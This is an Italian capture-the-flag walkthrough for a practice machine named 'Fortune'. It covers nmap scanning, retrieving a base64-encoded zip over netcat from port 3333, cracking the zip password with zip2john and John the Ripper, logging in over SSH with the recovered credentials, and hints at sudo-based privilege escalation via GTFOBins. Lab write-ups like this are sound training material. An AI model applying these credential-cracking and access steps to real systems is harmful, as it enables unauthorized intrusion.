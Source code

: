 # FORTUNE

come sappiamo si parte sempre con uno scan più o meno completo della rete per capire cosa dobbiamo affrontare 

### enum

```bash
nmap fortune.thm -sV -sC 
```

a questo punto abbiamo trovato la porta 3333 molto interessate...(se non riuscite a vederla rifare lo scan solo con l'opzione -p-)
se notate facendo partire successivamente un altro scan sulla porta 3333 e dandogli l'opzione la porta ci risponde con una stringa impresentabile con un = in fondo
bene ragazzi quello è un base64 cosa fare quando abbiamo un base64? decodarlo ovvio! cosi facendo ci restituisci infomazioni su cosa quella porta lavora. quindi ora sappiamo che 
dentro quella porta possiamo aspettarci un file zip. andiamo a prenderlo.

### netcat

una volta trovata qusta porta perchè non ci mettiamo in ascolto e vediamo cosa ci dice 

```bash
nc fortune.thm 3333 | base64 -d
```

a questo punto sono in ascolto della porta e gli sto dicendo di decodarmi tutto quello che invia.
ed ecco qua quello che ci aspettavamo un file creds.txt

con questo comando successiamo lo andiamo a prenderlo 

```bash
nc fortune.thm 3333 | base64 -d > test.zip
```

facendo l'unzip del file a quanto pare serve una password. troppo semplice per noi 

```bash
zip2john test.zip > hash.txt
```

andiamoci a prendere l'hash della password e crackiamola!
```bash
john hash.txt
```
e ecco la password! unzippiamo il file 
```bash
unzip test.zip
```

```bash
cat creds.txt
```

BINGO! abbiamo l'utente è la password

entriamo in ssh

```bash
ssh fortuna@fortune.thm
password:
```

# PRIVESC

prima che inizi consiglio di visitare il sito GTFO.BINS per spunti interessanti sul privilege escalation

vediamo che comandi da superuser possiamo lanciare

```bash
sudo -l
```

per il resto lascio a voi il ragionamento 

CONSIGLIO!!!(dovete aprire una shell)



